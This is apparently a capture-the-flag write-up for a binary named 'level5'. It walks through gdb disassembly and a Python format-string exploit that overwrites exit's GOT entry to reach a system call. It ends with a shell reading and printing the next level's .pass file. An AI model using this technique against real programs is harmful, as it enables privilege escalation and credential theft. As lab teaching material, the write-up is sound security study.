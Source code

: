 # Level 5

First step - testing the program
```
$ ./level5
Hello
Hello
```
The program wait an input and print it

Start it in GDB
```
(gdb-peda)$ disas main
Dump of assembler code for function main:
   0x08048504 <+0>:		push   ebp
   0x08048505 <+1>:		mov    ebp,esp
   0x08048507 <+3>:		and    esp,0xfffffff0
   0x0804850a <+6>:		call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
```

The main call a function `n`
```
(gdb-peda)$ disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:		push   ebp
   0x080484c3 <+1>:		mov    ebp,esp
   0x080484c5 <+3>:		sub    esp,0x218
   0x080484cb <+9>:		mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```
Just a fgets and a call to `printf` for print the buffer and `exit`

Let's see all the functions
```
(gdb-peda)$ info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf@plt
0x08048390  _exit@plt
0x080483a0  fgets@plt
0x080483b0  system@plt
0x080483c0  __gmon_start__@plt
0x080483d0  exit@plt
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

There is a non-called `o` function
```
(gdb-peda)$ disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:		push   ebp
   0x080484a5 <+1>:		mov    ebp,esp
   0x080484a7 <+3>:		sub    esp,0x18
   0x080484aa <+6>:		mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

---

The function call `system` and `exit`


We have to call this function using a format string attack and overwrite the Global Offset Table

Search stack's buffer position 
```
$ python -c 'print "AAAABBBB"+" %x"*10' | ./level5
AAAABBBB 200 b7fd1ac0 b7ff37d0 41414141 42424242 20782520 25207825 78252078 20782520 25207825
```
It is at 4th position.

Now we have to find the address of `o` function 
```
gdb-peda$ x o
0x80484a4 <o>:	0x83e58955
```

And the address of `exit` function in the GOT.PLT
```
gdb-peda$ x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```
So, we can build our script for replace `exit address` in PLT with `address of o function`

```
#!/usr/bin/python

import struct

FT_O = 0x80484a4
PLT_EXIT = 0x8049838

FT_O_DECI = 134513828

FT_O_P1_DECI = 33956 #84a4-8
FT_O_P2_DECI = 33632

def pad(s):
    return s+"X"*(512-len(s))

EXPLOIT = struct.pack("I", PLT_EXIT)
EXPLOIT += struct.pack("I", PLT_EXIT+2)
EXPLOIT += "%4$33948x"
EXPLOIT += "%4$n"
EXPLOIT += "%33632x"
EXPLOIT += "%5$n"

print pad(EXPLOIT)
```

Let's start 
```
./exploit.py > payload
cat payload - | ./level5
```

```
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
---

ressources : 
```
PLT and GOT - the key to code sharing and dynamic libraries
https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html

Reversing Linux : Comprendre le rôle des sections PLT et GOT dans l’édition de liens dynamique
https://www.segmentationfault.fr/linux/role-plt-got-ld-so/

Global Offset Table (GOT) and Procedure Linkage Table (PLT) - bin 0x12
https://www.youtube.com/watch?v=kUk5pw4w0h4

Format String Exploit and overwrite the Global Offset Table - bin 0x13
https://www.youtube.com/watch?v=t1LH9D5cuK4
```
